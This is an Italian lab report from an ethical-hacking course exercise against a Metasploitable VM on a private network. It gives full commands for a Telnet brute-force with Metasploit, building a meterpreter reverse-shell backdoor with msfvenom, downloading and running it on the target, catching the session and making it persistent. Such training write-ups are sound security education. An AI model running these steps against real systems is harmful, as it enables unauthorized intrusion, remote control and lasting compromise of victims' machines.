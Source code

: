 # Consegna S7/L2 | Hacking con Metasploit

## 🎯 Obiettivo
L'obiettivo di questa esercitazione è stato esplorare e applicare tecniche di **ethical hacking** utilizzando **Metasploit Framework** per:
1. Sfruttare una vulnerabilità del servizio **Telnet** presente sulla macchina Metasploitable.
2. Creare una **backdoor personalizzata** con **msfvenom**, compatibile con l'architettura a 32-bit, e trasferirla sul target per ottenere una sessione shell e, volendo, renderla **persistente**.

Questa relazione è scritta in modo scorrevole, con l'obiettivo di essere chiara anche per chi non ha familiarità con questi strumenti. 🚀

---

## 1. Sfruttamento del servizio Telnet
### 🛠️ Strumenti utilizzati
- **Metasploit Framework (msf6)**
- **Kali Linux**
- **Metasploitable** (target)
- **Nmap** per la scansione delle porte

### 📋 Procedura
1. **Scansione delle porte aperte**: 
   Utilizzando **Nmap**, abbiamo individuato che il servizio **Telnet** è attivo sulla porta **23** del target:
   ```bash
   nmap -p 23 192.168.50.3
   ```
   Questo passaggio è essenziale per rilevare servizi vulnerabili esposti.

2. **Accesso al servizio Telnet con Metasploit**:
   Per sfruttare questa vulnerabilità, abbiamo utilizzato il modulo **telnet_login** di Metasploit per effettuare un attacco brute force e ottenere le credenziali.
   
   ```bash
   msfconsole
   use auxiliary/scanner/telnet/telnet_login
   set RHOSTS 192.168.50.3
   set USER_FILE users.txt
   set PASS_FILE passwords.txt
   run
   ```
   Una volta trovate le credenziali corrette, siamo riusciti ad accedere alla macchina tramite **Telnet**.

3. **Accesso alla shell**:
   L'accesso Telnet ci ha fornito una **shell interattiva** come utente privilegiato. Questo è stato il punto di partenza per l'exploit successivo.

---

## 2. Creazione e utilizzo della backdoor
### 🧰 Strumenti utilizzati
- **msfvenom**: Generazione del payload
- **Metasploit Framework**: Configurazione del listener
- **Python HTTP Server**: Trasferimento del file
- **wget**: Download sul target

### 🚀 Creazione della backdoor
Abbiamo scelto di utilizzare **msfvenom** per creare un payload **reverse shell**. La scelta è ricaduta su **linux/x86/meterpreter_reverse_tcp** perché:
1. **Compatibilità**: Metasploitable gira su architettura a **32-bit**, quindi la backdoor è stata compilata per x86.
2. **Meterpreter**: Consente un controllo avanzato del sistema target rispetto a una shell classica.

Il comando utilizzato è stato:
```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f elf -o backdoor_ftp.elf
```
- **`-p`**: Specifica il payload.
- **`LHOST` e `LPORT`**: Definiscono l'indirizzo IP e la porta di ascolto della nostra macchina Kali.
- **`-f elf`**: Output in formato ELF (eseguibile Linux).
- **`-o`**: Salva il file con il nome `backdoor_ftp.elf`.

### 📤 Trasferimento della backdoor
Per trasferire il file generato sul target, abbiamo usato un server HTTP semplice su Kali e **wget** su Metasploitable:

1. **Avvio del server HTTP su Kali**:
   ```bash
   python3 -m http.server 8080
   ```
2. **Download del file sul target**:
   ```bash
   cd /tmp
   wget http://192.168.50.2:8080/backdoor_ftp.elf
   ```

### 🔑 Esecuzione della backdoor
Una volta trasferita la backdoor:
1. **Permessi di esecuzione**:
   ```bash
   chmod +x backdoor_ftp.elf
   ```
2. **Avvio della backdoor**:
   ```bash
   ./backdoor_ftp.elf
   ```

### 📡 Configurazione del listener su Metasploit
Per ricevere la connessione inversa, abbiamo configurato il modulo **multi/handler**:
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter_reverse_tcp
set LHOST 192.168.50.2
set LPORT 4444
exploit
```

### 🎉 Risultato: Sessione Meterpreter
La backdoor si è connessa correttamente, permettendoci di ottenere una **sessione Meterpreter** con accesso completo al sistema target.

**Cosa abbiamo potuto fare con Meterpreter?**
- Navigare nel filesystem con `ls` e `cd`
- Caricare e scaricare file con `upload` e `download`
- Ottenere informazioni sul sistema con `sysinfo`
- Eseguire comandi direttamente sul target

### 🔒 Persistenza (facoltativa)
Abbiamo reso la backdoor persistente utilizzando il modulo `persistence` di Meterpreter:
```bash
run persistence -X -i 5 -p 4444 -r 192.168.50.2
```
- **`-X`**: Installa come servizio di sistema.
- **`-i`**: Intervallo di riconnessione ogni 5 secondi.
- **`LPORT` e `LHOST`**: Configurazione di ascolto per la nostra macchina.

---

## 🏁 Conclusione
Questa esercitazione ha mostrato come:
1. **Identificare e sfruttare** una vulnerabilità in un servizio esposto (Telnet).
2. **Creare una backdoor personalizzata** con **msfvenom** adattandola all'architettura del target.
3. **Ottenere accesso avanzato** con Meterpreter, dimostrando anche come implementare la persistenza.

Questa attività fornisce una panoramica concreta sulle tecniche di **post-exploitation**, evidenziando la necessità di proteggere sistemi vulnerabili. 


---

## ⚠️ Note
Questo documento è a scopo puramente educativo e dimostrativo per la sicurezza informatica. Ogni utilizzo improprio è severamente vietato. 🚨
